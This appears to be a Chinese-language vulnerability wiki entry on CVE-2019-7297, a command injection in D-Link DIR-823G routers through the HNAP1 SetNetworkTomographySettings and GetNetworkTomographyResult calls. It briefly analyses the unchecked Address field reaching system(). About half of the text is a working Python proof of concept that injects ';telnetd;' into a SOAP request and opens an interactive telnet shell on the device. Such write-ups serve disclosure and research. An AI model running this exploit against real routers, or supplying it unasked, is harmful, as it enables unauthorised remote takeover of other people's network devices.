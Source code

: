 # （CVE-2019-7297）D-Link DIR-823G 命令注入漏洞

## 一、漏洞简介

D-Link DIR 823G 1.02B03及之前的版本中存在命令注入漏洞，攻击者可通过发送带有shell元字符的特制/HNAP1请求利用该漏洞执行任意的操作系统命令。GetNetworkTomographyResult函数中调用system函数，执行的内容中包括不受信任的用户输入Address字段，攻击者可以远程执行任意命令。

## 二、漏洞影响

D-Link DIR 823G 1.02B03及之前的版本

## 三、复现过程

### 漏洞分析

漏洞原理中提到的GetNetworkTomographyResult函数是在goahead二进制文件中实现的。在function_list中找到对应的函数地址。

GetNetworkTomographyResult获取address，number，size参数，作为ping的参数。

![image](/Users/aresx/Documents/VulWiki/IOT%E5%AE%89%E5%85%A8/D-Link/.resource/%EF%BC%88CVE-2019-7297%EF%BC%89D-Link%20DIR-823G%20%E5%91%BD%E4%BB%A4%E6%B3%A8%E5%85%A5%E6%BC%8F%E6%B4%9E/media/11-20201014111429856.png)

```
ping address -c number -w number -s size > /tmp/ping.txt 2>>/tmp/ping.txt
```

但在system之前并没有对这些外来参数进行检查，如果address为`;telnetd;`就能启动Telnet服务。可以看出这些参数都是通过apmib_get获取的，那么在之前一定有apmib_set进行设置，在IDA中查找关键字0x1b72，0x1b73，0x1b73，定位到apmib_set的位置，结合ghidra的反汇编代码，确定在`SetNetworkTomographySettings`函数中可以对这些参数进行设置。

![image](/Users/aresx/Documents/VulWiki/IOT%E5%AE%89%E5%85%A8/D-Link/.resource/%EF%BC%88CVE-2019-7297%EF%BC%89D-Link%20DIR-823G%20%E5%91%BD%E4%BB%A4%E6%B3%A8%E5%85%A5%E6%BC%8F%E6%B4%9E/media/12-20201014111429857.png)

### poc

```
import requests
from pwn import *

IP='192.168.0.1'

headers = requests.utils.default_headers()
headers["User-Agent"] = "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/56.0.2924.76 Safari/537.36"
headers["SOAPAction"] = '"http://purenetworks.com/HNAP1/SetNetworkTomographySettings"'
headers["Content-Type"] = "text/xml; charset=UTF-8"
headers["Accept"]="*/*"
headers["Accept-Encoding"]="gzip, deflate"
headers["Accept-Language"]="zh-CN,zh;q=0.9,en;q=0.8"


payload = '<?xml version="1.0" encoding="utf-8"?><soap:Envelope xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:xsd="http://www.w3.org/2001/XMLSchema" xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/">\
  <soap:Body>\
    <SetNetworkTomographySettings xmlns="http://purenetworks.com/HNAP1/">\
      <Address>;telnetd;</Address>\
      <Number>4<Number>\
          <Size>4</Size>\
     </SetNetworkTomographySettings></soap:Body></soap:Envelope>'
r = requests.post('http://'+IP+'/HNAP1/', headers=headers, data=payload)
print r.text

headers["SOAPAction"] = '"http://purenetworks.com/HNAP1/GetNetworkTomographyResult"'
payload = '<?xml version="1.0" encoding="utf-8"?><soap:Envelope xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:xsd="http://www.w3.org/2001/XMLSchema" xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/">\
  <soap:Body>\
    <GetNetworkTomographyResult xmlns="http://purenetworks.com/HNAP1/">\
     </GetNetworkTomographyResult></soap:Body></soap:Envelope>'
r = requests.post('http://'+IP+'/HNAP1/', headers=headers, data=payload)
print r.text

p=remote(IP,23)
p.interactive()
```